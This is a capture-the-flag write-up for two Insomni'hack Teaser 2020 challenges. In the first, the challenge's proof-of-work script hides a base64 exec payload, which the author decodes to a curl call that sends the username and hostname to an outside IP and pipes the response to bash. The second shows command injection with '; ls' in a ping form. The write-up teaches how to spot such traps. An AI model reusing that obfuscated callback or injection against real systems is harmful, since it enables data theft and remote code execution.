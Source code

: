 # Insomni'hack Teaser 2020

This was an extremely difficult CTF (by my standards) with a weight of ```52.33``` so I was only able to do two trivial challenges ```welcome``` & ```LowDeep``` and scored a rank of ```114```. I was trying for ```Kaboom``` & ```secretus``` as well, but wasn't able to do much within the time frame, will upsolve and post them here when done.

## warmup

### Welcome 36 pts.
>This year we added a Proof of Work to some of our challenges.
>
>Just run python pow.py <target>, were target is the value provided by the server and get the flag.
> nc welcome.insomnihack.ch 1337
**pow.py**
```
#!/usr/bin/python3

import base64
import hashlib
import os
import sys 

target = sys.argv[1]
i = 0 

def pow():
    global i, target
    while True:
        m = hashlib.md5()
        m.update(str(i).encode())
        h = m.hexdigest()
        if h[:6] == target:
            exec(base64.b64decode('Z2xvYmFsIGk7aSs9MTMzNzt4PW9zLm5hbWU7eCs9Ii8kKHdob2FtaSlAJChob3N0bmFtZSl8YmFzaCJpZiB4IT0ibnQiZWxzZSIvJVVTRVJOQU1FJUAlVVNFUkRPTUFJTiUiO29zLnN5c3RlbSgiY3VybCAtTnMgMzQuNjUuMTg3LjE0MS8iK3gp'))
            print(i)
            exit(0)
        i += 1

if __name__ == '__main__':
    pow()
```

We see that there's a base64 encoded string which is being decode and executed.

```
$ echo Z2xvYmFsIGk7aSs9MTMzNzt4PW9zLm5hbWU7eCs9Ii8kKHdob2FtaSlAJChob3N0bmFtZSl8YmFzaCJpZiB4IT0ibnQiZWxzZSIvJVVTRVJOQU1FJUAlVVNFUkRPTUFJTiUiO29zLnN5c3RlbSgiY3VybCAtTnMgMzQuNjUuMTg3LjE0MS8iK3gp | base64 -d
global i;i+=1337;x=os.name;x+="/$(whoami)@$(hostname)|bash"if x!="nt"else"/%USERNAME%@%USERDOMAIN%";os.system("curl -Ns 34.65.187.141/"+x)
```

It sends our username and hostname to ```34.65.187.141``` and blocks us from getting the flag, even after getting the proof of work. So the solution is to simply comment out that line.

```
$ nc welcome.insomnihack.ch 1337

======================================================================
============   Welcome to the Insomni'Hack Teaser 2020!   ============
======================================================================

Give me an input whose md5sum starts with "f49122" and get the flag ;)
7319391

MITM are real: check SHA, check code, ...
```

```
$ python pow.py f49122
7319391
```

```INS{Miss me with that fhisy line}```

## web

### LowDeep 36 pts.

> Try out our new ping platform: lowdeep.insomnihack.ch/

The websites asks us to provide an IP address to ping. Instead of providing an IP address if we provide ```; ls``` we get the list of files in the current directory. One of the files is ```print-flag```.

![](lowdeep.png)

Downloading and running that file gives us the flag.

```
$ ./print-flag 
INS{Wh1le_ld_k1nd_0f_forg0t_ab0ut_th3_x_fl4g}
```
